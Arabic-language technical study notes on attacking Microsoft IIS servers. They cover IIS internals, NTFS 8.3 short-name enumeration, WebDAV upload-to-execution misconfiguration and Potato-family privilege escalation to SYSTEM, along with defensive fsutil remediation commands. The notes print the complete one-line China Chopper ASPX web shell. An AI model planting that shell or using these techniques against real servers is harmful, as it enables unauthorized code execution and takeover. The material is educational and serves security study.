

# الملاحظات الإضافية والتعمق التقني: معمارية IIS واختراق أنظمة ويندوز (Web Server Attacks - II)

---

### 1. المعمارية الداخلية لخادم Microsoft IIS (IIS Internal Architecture)

ينقسم خادم IIS إلى مستويين معماريين رئيسيين: مستوى نواة النظام (Kernel Mode) ومستوى وضع المستخدم (User Mode):

```text
[ Incoming HTTP Request (Port 80/443) ]
                   │
                   ▼
┌────────────────────────────────────────────────────────┐
│               KERNEL MODE (النواة)                     │
│  HTTP.sys Driver (\System32\drivers\http.sys)          │
│  - استماع للمنافذ وتوجيه الحزم                         │
│  - التخزين المؤقت في النواة (Kernel-mode Caching)      │
│  - إدارة طوابير الطلبات (Request Queues)               │
└──────────────────────────┬─────────────────────────────┘
                           │
                           ▼
┌────────────────────────────────────────────────────────┐
│             USER MODE (وضع المستخدم)                  │
│  WAS (Windows Process Activation Service)              │
│  W3SVC (World Wide Web Publishing Service)             │
│                          │                             │
│                          ▼                             │
│  w3wp.exe (Worker Process) - Application Pool          │
│  ├── CLR / ASP.NET Engine (.NET Runtime)              │
│  ├── WebDAV Module (webdav.dll)                        │
│  └── ISAPI Filters & Native Modules                    │
└────────────────────────────────────────────────────────┘
```

#### دور `HTTP.sys`:
* درع الاستماع المباشر في النواة. لا يحتوي على منطق معالجة لملفات التطبيق، بل يمرر الطلبات لطابور حوض التطبيقات المعني.
* الثغرات التي تصيب `HTTP.sys` (مثل CVE-2015-1635 أو CVE-2022-21907) تؤدي إما لتنفيذ أوامر بنواة النظام مباشرة أو إسقاط الويندوز بشاشة الموت الزرقاء (BSOD).

#### عملية التشغيل `w3wp.exe` ونموذج أحواض التطبيقات (Application Pools):
* كل موقع أو تطبيق ويب يعمل داخل حوض تطبيقات (AppPool) معزول.
* الهوية الافتراضية للحوض هي `IIS AppPool\<AppPoolName>`، وهي هوية افتراضية منخفضة الصلاحيات معزولة عن ملفات باقي المستخدمين، لكنها تملك حق الوصول للشبكة وتمنح افتراضياً امتياز `SeImpersonatePrivilege`.

---

### 2. خوارزمية الأسماء القصيرة NTFS 8.3 وتفاصيل ثغرة التخمين (8.3 SFN Deep Dive)

#### كيف يولد ويندوز الأسماء القصيرة؟
عند إنشاء ملف باسم `ConfidentialDocument.pdf`:
1. يحذف ويندوز المسافات والمحارف الخاصة.
2. يأخذ أول 6 محارف بحروف كبيرة: `CONFID`.
3. يضيف علامة المدة ورقم التسلسل: `~1`.
4. يأخذ أول 3 محارف من الامتداد: `.PDF`.
5. الناتج: `CONFID~1.PDF`.

إذا وجد ملف آخر يبدأ بنفس الأحرف الستة (مثل `ConfidentialReport.pdf`)، يولد له: `CONFID~2.PDF`.
إذا زاد عدد الملفات المتشابهة عن 4، يتحول ويندوز لخوارزمية تشفير تجزئة (Hash-based) لأول 2 أو 3 أحرف متبوعة بـ `~1`.

#### كيف تستجيب خوادم IIS لطلبات التخمين؟
* عند إرسال طلب مثل `GET /CONFI*~1* HTTP/1.1`:
  * إذا كان هناك ملف أو مجلد يبدأ بـ `CONFI` في مسار الويب، يتعرف نظام الملفات على النمط ويرجع IIS كود **`404 Not Found`** (لأنه وجد الملف في نظام الملفات لكن المعالج لم يستطع خدمته كصفحة عادية).
  * إذا لم يكن هناك أي ملف يبدأ بهذا النمط، يرفض IIS الطلب ويعيد كود **`400 Bad Request`**.
* هذا الاختلاف في كود الحالة أو طول الاستجابة يتيح للمهاجم كتابة سكربت تخمين حرفاً بحرف حتى يتم استخراج أول 6 أحرف والامتداد بدقة مطلقة!

#### التعطيل الدفاعي للأسماء القصيرة (Remediation):
```powershell
# 1. الاستعلام عن حالة الأسماء القصيرة في النظام
fsutil 8dot3name query

# 2. تعطيل توليد الأسماء القصيرة لجميع الأقراص
fsutil 8dot3name set 1

# 3. إزالة الأسماء القصيرة المولدة مسبقاً من مجلد الويب (يتطلب الحذر)
fsutil 8dot3name strip /s /v C:\inetpub\wwwroot
```

---

### 3. ميكانيكا بروتوكول WebDAV والتهيئة القاتلة (WebDAV Mechanics)

يحدد معيار RFC 4918 طرق HTTP الإضافية لإدارة الملفات عبر الشبكة:
* `PROPFIND`: استعراض خصائص وهيكل الملفات والمجلدات (يعادل `dir` أو `ls`).
* `PUT`: رفع وكتابة ملف جديد على الخادم.
* `MOVE` / `COPY`: نقل ونسخ الملفات بين المسارات.
* `DELETE`: حذف الملفات من الدليل.
* `LOCK` / `UNLOCK`: قفل الملفات لمنع التعديل المتزامن.

#### متى تصبح WebDAV ثغرة تنفيذ أوامر RCE؟
تحدث الكارثة عندما يجمع المسؤول في خصائص الدليل الافتراضي بين:
1. **Write (الكتابة):** يسمح بإنشاء الملفات عبر `PUT`.
2. **Scripts / Execute (التنفيذ):** يسمح بتمرير الملفات لمحرك ASP.NET.
إذا كانت الكتابة مسموحة ولكن التنفيذ معطل (`Execute: None`)، فإن رفع `cmd.aspx` وطلبه سيعيد كود C# المصدري كملف نصي دون تشغيله. أما مع تفعيل التنفيذ، يترجم IIS الملف إلى DLL ديناميكي ويشغله فورياً!

---

### 4. التشريح الداخلي لصدفات ASPX ومقارنتها بـ PHP/JSP

في بيئة PHP، مفسر اللغة يقرأ الملف سطراً بسطر ويفسره في الذاكرة. أما في ASP.NET:
1. عندما يُطلب ملف `cmd.aspx` لأول مرة، يكتشف محرك ASP.NET عدم وجود نسخة مترجمة منه.
2. يستدعي مترجم لغة C# (`csc.exe` أو Roslyn) لتحويل كود الـ ASPX إلى تجميعة دوت نت ثنائية (.NET DLL Assembly).
3. يتم حفظ الملف التنفيذي المترجم في المجلد:
   `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\`
4. يتم تحميل الـ DLL داخل مساحة الذاكرة الخاصة بـ `w3wp.exe` وتشغيل الدالة.
5. بما أن الكود يعمل داخل بيئة .NET، يمتلك المهاجم حق الوصول الكامل لكافة دوال الـ Windows API وفئات `System.Diagnostics.Process` و `System.Reflection`.

#### صدفة China Chopper الشهيرة:
تستخدم صدفة تشاينا تشوبر 73 بايت فقط لتفادي الفحص الأمني لبرامج مكافحة الفيروسات:
```aspx
<%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
```
تعتمد على تمرير كود JScript مشفر ديناميكياً في معامل الـ POST، مما يجعلها إحدى أكثر الصدفات استخداماً في اختراقات خوادم Exchange و IIS من قبل مجموعات APT المتقدمة.

---

### 5. عائلة استغلال الرموز المميزة Potato (Potato Privilege Escalation Mechanics)

#### لماذا يمتلك `iis apppool` امتياز `SeImpersonatePrivilege`؟
في معمارية ويندوز، عندما يتصل مستخدم بخادم IIS مستخدماً مصادقة ويندوز المتكاملة (Windows Authentication)، يحتاج IIS لانتحال هوية هذا المستخدم (Impersonation) لقراءة ملفاته من خادم ملفات أو الاستعلام عن قاعدة بيانات نيابة عنه. لهذا السبب، تمنح مايكروسوفت حساب `iis apppool` هذا الامتياز كجزء من تصميمه الوظيفي.

#### مسار الاستغلال من AppPool إلى SYSTEM:


* **أدوات Potato الشائعة:**
  * **RottenPotato / JuicyPotato:** تستغل خدمة DCOM OXID Resolver (تعمل على Windows Server 2008 / 2012 / 2016 القديمة، وتم حظرها في Windows Server 2019).
  * **PrintSpoofer:** تستغل خدمة الطابعات (Print Spooler) عبر القنوات المسماة (تعمل بكفاءة مطلقة على Windows Server 2016 و 2019).
  * **GodPotato:** تستغل بروتوكول DCOM عبر واجهات RPC المدمجة (تعمل على كافة إصدارات ويندوز الحديثة من Windows 8 إلى Server 2022).
